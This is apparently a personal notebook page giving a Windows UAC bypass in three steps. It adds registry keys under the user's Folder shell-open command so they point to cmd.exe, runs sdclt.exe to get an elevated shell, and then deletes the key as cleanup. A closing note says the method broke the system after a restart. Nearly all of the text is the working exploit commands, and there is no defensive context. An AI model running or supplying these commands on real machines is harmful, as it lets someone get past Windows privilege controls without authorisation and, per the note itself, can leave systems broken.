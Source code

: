 ### Create the Registry
```Powershell

reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f

```
### Call sdclt.exe
```powershell

%windir%\system32\sdclt.exe

```
### Cleanup
```Powershell

reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f

```


### Notes
- Broke system after restart ![](Pasted%20image%2020240624105411.png)